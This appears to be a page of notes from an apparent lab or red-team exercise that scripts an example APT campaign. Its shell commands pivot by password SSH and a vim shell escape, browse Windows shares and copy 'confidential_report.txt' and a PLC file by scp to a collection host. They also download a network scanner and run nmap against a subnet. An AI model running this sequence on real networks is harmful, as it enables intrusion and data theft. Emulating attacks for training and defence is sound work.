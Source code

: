 ```
ls 
cd Documents 
ls 
scp -o PasswordAuthentication=yes -o PubkeyAuthentication=no -o PreferredAuthentications=password secret.txt debian@10.1.3.165:/home/debian 
ssh -o PasswordAuthentication=yes -o PubkeyAuthentication=no -o PreferredAuthentications=password TestAdmin@10.0.1.20 -p 666
ssh -o PasswordAuthentication=yes -o PubkeyAuthentication=no -o PreferredAuthentications=password TestAdmin@10.0.1.20

-->

:!sh
Microsoft Windows [Version 10.0.17763.737]
(c) 2018 Microsoft Corporation. All rights reserved.

ls
powershell 
whoami
ls
cd ..
cd ..
ls
cd .\shares\
ls
cd .\company\
ls
type .\confidential_report.txt
scp -o PasswordAuthentication=yes -o PubkeyAuthentication=no -o PreferredAuthentications=password .\confidential_report.txt debian@10.1.3.165:/home/debian/
cd ..
cd ..
Invoke-WebRequest 'https://raw.githubusercontent.com/BornToBeRoot/PowerShell_IPv4NetworkScanner/refs/heads/main/Scripts/IPv4NetworkScan.ps1' -OutFile scan.ps1 
.\scan.ps1 -IPv4Address 10.0.2.0 -CIDR 24
nmap -A 10.0.2.0/24
ssh -o PasswordAuthentication=yes -o PubkeyAuthentication=no -o PreferredAuthentications=password debian@10.0.2.17 -p 80

--> 

Linux OT-Linux-PLC 6.1.0-18-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.1.76-1 (2024-02-01) x86_64

ls
scp -o PasswordAuthentication=yes -o PubkeyAuthentication=no -o PreferredAuthentications=password plc debian@10.1.3.165:/home/debian/
```



## Example APT Campaign 2


[localhost]: PS C:\Users\adm1n\Documents> whoami
[localhost]: PS C:\Users\adm1n\Documents> whoami